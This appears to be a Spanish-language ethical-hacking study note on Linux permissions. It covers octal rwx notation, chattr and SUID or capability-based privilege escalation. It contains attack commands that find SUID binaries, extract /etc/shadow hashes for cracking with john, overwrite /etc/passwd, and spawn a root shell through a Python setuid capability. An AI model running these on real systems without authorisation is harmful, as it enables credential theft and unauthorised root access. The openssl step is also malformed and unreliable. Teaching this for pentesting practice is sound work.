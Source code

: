 # 🔐 Lectura de permisos

![](https://raw.githubusercontent.com/w0lfst/Apuntes-Hacking-Etico/main/assets/images/permisos.png)

> `X` Fichero: ejecutable | directorio: atravesar (cd)

***

## Permisos formato decimal

| rwx | r-x | r-x |
| --- | --- | --- |
| 7   | 5   | 5   |

* 7 = 1+2+4
* 5 = 1+4
* 5 = 1+4

La posicion se cuenta desde la derecha:

* x > 1
* w > 2
* r > 4

> Todo esta convertido de binario a decimal. Para saber como convertir mira el siguiente punto.

### Convertir de binario a decimal

| r-x | r-- | -w- |
| --- | --- | --- |
| 101 | 100 | 010 |
| 5   | 4   | 2   |

Contar la posicion desde la derecha 0 1 2

* Solo operamos con las posiciones que tengan un 1.
* Elevamos 2 a cada posicion:
  * 2^0 + 2^2 = 1 + 4 = 5
  * 2^2 = 4
  * 2^1 = 2

***

## Permisos avanzados

```bash
chattr +i -V fichero.txt
```

* `+i` Añadir flag que impide borrar el fichero hasta al usuario **root**.
* `-V` Muestra todo lo que realiza el comando.

> Ver los permisos especiales `lsattr`

***

## Explotación permisos SUID

1. Asignar un permiso SUID, por ejemplo, el comando find es 755, con chmod añadimos un 4 al permiso del archivo

```bash
chmod 4755 /usr/bin/find
```

1. Con el comando `id` podemos ver los permisos SUID que tenemos.
2. Buscariamos en [GTFOBins](https://gtfobins.github.io/) el permiso que tenemos, en este caso, find.

## Explotacion permisos

Buscar permisos SUID:

```bash
find \-perm -4000  2>/dev/null 
```

Para evitar que salgan errores en el escaneo:

1. En bash el error se gestiona a trave del numero 2.
2. Redirigimos el error a /dev/null → 2>/dev/null

Buscar archivos con permisos de escritura:

```bash
find \-writable 2>/dev/null 
```

### Ejemplos ataque:

Si tenemos permiso para ver el archivo shadows podremos ver las contraseñas de los usuarios hasheadas en un formato sha-512.

> Comprobamos el tipo de hash con `cat /etc/login.defs | grep "ENCRYPT_METHOD"`

1. Desencriptaremos las contraseñas por fuerza bruta, por ejemplo con el diccionario rockyou.
2. Exportamos el hash:

```bash
cat /etc/shadow | grep "user" > hash
```

1. Crackemos:

```bash
john --wordlist=/usr/share/wordlists/rockyou hash 
```

1. Ver contraseña:

```bash
john --show hash
```

Si tenemos permiso de escritura en /etc/passwd:

1. Nos creamos una contraseña:

```bash
openssl nueva-contraseña
```

1. Veremos un hash y lo copiamos.
2. Con hash y hashid podemos saber en que formato esta hecho.
3. Modificamos el /etc/passwd y ponemos el hash que hemos generado para asi loguearnos como ese usuario con la contraseña creada anteriormente.

## Capabilities

Asignaremos un capabilite para realizar la prueba:

```bash
setcap cap_setuid+ep /usr/bin/python3.9
```

En este caso estamos asignando una capabilitie de tipo setuid, podemos ver mas tipos [aqui](https://wiki.gentoo.org/wiki/Hardened/Overview\_of\_POSIX\_capabilities).

Para obtener las capabilities que tenemos asignadas actualmente:

```bash
cd /
getcap -r / 2>/dev/null
```

En este caso encontraremos una capabilitie de python tipo `cap_setuid+ep`.\
Aprovecharemos esta capabilitie para lanzarnos una bash con privilegios de root:

```bash
python3.9 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
